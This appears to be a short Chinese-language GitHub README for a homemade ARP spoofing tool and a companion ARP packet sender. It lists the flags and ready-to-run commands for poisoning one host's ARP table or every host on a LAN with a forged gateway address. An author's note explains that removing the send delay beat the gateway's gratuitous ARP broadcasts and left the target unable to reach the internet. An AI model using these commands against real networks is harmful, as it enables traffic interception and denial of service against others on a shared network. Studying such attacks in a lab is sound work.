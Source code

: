 # ARP Spoofer        
Usage:        
arpspoof -i interface -t target_ip -s spoofing_host -l interval -g q/p    
    
-i 接口    
-t 目标IP地址    
-s 源IP地址    
-l ARP发包间隔，单位us    
-g 免费ARP选项，q=arp request，p=arp reply     
        
1.攻击具体主机    
伪装网络内网关MAC，发送给某个主机    
./arpspoof.elf -i wlan0 -t 192.168.0.101 -s 192.168.0.1  -l 100     
    
2.攻击网络内所有主机    
./arpspoof.elf -i wlan0 -t 192.168.0.1 -s 192.168.0.1 -l 100 -g p    
    
在使用本例子做arp欺骗实验，将网关的MAC地址替换为本地MAC地址时，      
刚开始发现并没有成功，通过抓包发现，原来网关(192.168.0.1)一直在      
发送免费ARP广播，导致并没有成功覆盖目标主机的MAC地址，在本地加大      
了发送频率，将程序中延迟去掉，成功覆盖目标主机的ARP表，导致目标      
主机无法通过网关上网。        
    
  
# ARP Tools  
## Usage  
(1)ARP Request  
arp -i interface -q -Tip ip     
  
(2)ARP Reply  
arp -i interface -p -Tip ip  
  
(3)Debug Mode  
arp -D -i interface -q/p -Sip source_ip -Smac source_mac -Tip target_ip -Tmac target_mac  
